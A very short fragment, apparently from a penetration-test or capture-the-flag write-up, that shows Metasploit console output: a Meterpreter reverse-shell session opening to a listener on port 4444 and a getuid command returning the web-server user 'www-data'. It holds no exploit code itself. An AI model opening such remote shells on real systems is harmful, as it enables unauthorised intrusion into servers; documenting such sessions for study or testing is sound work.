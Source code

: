 ```
[*] Meterpreter session 2 opened (192.168.91.195:4444 -> 10.18.0.3:54964) at 2022-12-22 16:56:42 +0200

meterpreter > getuid
Server username: www-data
```
